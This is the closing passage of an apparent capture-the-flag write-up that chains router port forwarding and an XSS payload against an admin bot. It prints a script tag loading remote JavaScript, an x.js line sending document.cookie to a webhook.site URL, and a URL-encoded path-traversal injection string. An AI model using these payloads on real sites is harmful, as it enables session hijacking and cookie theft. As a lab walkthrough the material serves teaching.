 The destination IP is the local IP of the device used, i.e., the one I obtained with `ifconfig`, or `ipconfig` in Windows.

This way, when the router receives a request on the selected WAN port, the packet will be forwarded to the local IP and port entered in the port forwarding table.

To test that everything has been done correctly, simply visit `[public IP of the router]:[WAN port]` from any device, preferably not connected to the same local network as the server hosting the exploit (e.g., a phone with mobile data).

### Final Payload
Let's make it happen.

To recap:

- The finalized payload to include the remote JavaScript code is `<script src="//[IP]:[PORT]/x.js"></script>`.
- The code present on `x.js` is `window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;`.
- All that's left is to send the bot a report like this:

![Final Payload in Burp](./media/img/FinalBurp.png)

`id=1/../../search%3flol%3d"/admin"%26q%3d<script%2bsrc%253d"http%253a//10.10.201.233%253a1337/x.js"></script>&message=/admin`, which decodes to `id=1/../../search?lol="/admin"&q=<script src="http://10.10.201.233:1337/x.js"></script>&message=/admin`

To anyone who managed to read this far, thank you from the bottom of my heart ❤️

For any feedback, you can reach me on Discord: `titto_caru`